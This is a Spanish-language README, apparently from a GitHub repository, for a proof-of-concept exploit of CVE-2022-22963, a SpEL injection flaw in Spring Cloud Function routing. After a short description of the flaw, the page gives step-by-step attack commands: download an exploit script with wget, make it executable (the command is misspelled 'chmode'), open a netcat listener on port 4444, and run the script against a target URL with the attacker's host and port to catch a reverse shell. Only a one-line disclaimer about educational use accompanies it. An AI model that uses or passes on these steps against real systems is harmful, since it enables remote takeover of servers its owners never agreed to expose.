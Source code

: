 # CVE-2022-22963
En las versiones 3.1.6, 3.2.2 y versiones anteriores de Spring Cloud Function, al utilizar la funcionalidad de enrutamiento es posible que un usuario proporcione un SpEL especialmente diseñado como una expresión de enrutamiento que puede resultar en la ejecución remota de código y el acceso a recursos locales.
## PoC
Descarga el archivo springCloud.sh
```bash
wget https://raw.githubusercontent.com/jrbH4CK/CVE-2022-22963/main/springCloud.sh
```
Cambia los permisos de ejecución
```bash
chmode +x springCloud.sh
```
Inicia nc por el puerto deseado
```bash
nc -nlvp 4444
```

Ejecuta el comando siguiente cambiando los parametros de acuerdo a tus necesidades
```bash
./springCloud.sh url lhost lport
```

NOTA: El uso de este repositorio es responsabilidad de quien lo utiliza y no del autor, solo con fines educativos.
